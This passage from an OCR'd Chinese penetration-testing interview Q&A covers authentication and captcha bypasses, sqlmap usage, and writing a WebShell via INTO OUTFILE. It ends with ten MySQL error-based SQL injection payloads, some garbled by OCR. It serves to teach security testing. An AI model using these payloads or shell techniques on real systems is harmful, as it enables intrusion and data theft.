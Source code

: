 3）可以跳过验证步骤、

4）找回凭证可以拦包获取

等方式来通过厂商提供的密码找回功能来得到密码。
**身份认证漏洞**中最常见的是

1）会话固定攻击

2） Cookie 仿冒

只要得到 Session 或 Cookie 即可伪造用户身份。
**验证码漏洞**中存在

1）验证码允许暴力破解

2）验证码可以通过 Javascript 或者改包的方法来进行绕过



**37、圈出下面会话中可能存在问题的项，并标注可能会存在的问题？**

get /ecskins/demo.jsp?uid=2016031900&keyword=”hello world”
HTTP/1.1Host:***.com:82User-Agent:Mozilla/
5.0 Firefox/40Accept:text/css,/;q=0.1
Accept-Language:zh-CN;zh;q=0.8;en-US;q=0.5,en;q=0.3
Referer:http://*******.com/eciop/orderForCC/
cgtListForCC.htm?zone=11370601&v=145902
Cookie:myguid1234567890=1349db5fe50c372c3d995709f54c273d;
uniqueserid=session_OGRMIFIYJHAH5_HZRQOZAMHJ;
st_uid=N90PLYHLZGJXI-NX01VPUF46W;
status=True
Connection:keep-alive

有写入权限的，构造联合查询语句使用using INTO OUTFILE，可以将查询的输出重定向到系统的文件中，这样去写入 WebShell
使用 sqlmap –os-shell 原理和上面一种相同，来直接获得一个 Shell，这样效率更高
通过构造联合查询语句得到网站管理员的账户和密码，然后扫后台登录后台，再在后台通过改包上传等方法上传 Shell

**38、给你一个网站你是如何来渗透测试的?**
在获取书面授权的前提下。

**39、sqlmap，怎么对一个注入点注入？**
1）如果是get型号，直接，sqlmap -u "诸如点网址".
2) 如果是post型诸如点，可以sqlmap -u "注入点网址” --data="post的参数"
3）如果是cookie，X-Forwarded-For等，可以访问的时候，用burpsuite抓包，注入处用号替换，放到文件里，然后sqlmap -r "文件地址"

**40、nmap，扫描的几种方式**

**41、sql注入的几种类型？**
1）报错注入
2）bool型注入
3）延时注入
4）宽字节注入
**42、报错注入的函数有哪些？ 10个**
1）and extractvalue(1, concat(0x7e,(select @@version),0x7e))】】】
2）通过floor报错 向下取整
3）+and updatexml(1, concat(0x7e,(secect @@version),0x7e),1)
4）.geometrycollection()select from test where id=1 and geometrycollection((select from(selectfrom(select user())a)b));
5）.multipoint()select from test where id=1 and multipoint((select from(select from(select user())a)b));
6）.polygon()select from test where id=1 and polygon((select from(select from(select user())a)b));
7）.multipolygon()select from test where id=1 and multipolygon((select from(select from(select user())a)b));
8）.linestring()select from test where id=1 and linestring((select from(select from(select user())a)b));
9）.multilinestring()select from test where id=1 and multilinestring((select from(select from(select user())a)b));
10）.exp()select from test where id=1 and exp(~(select * from(select user())a));
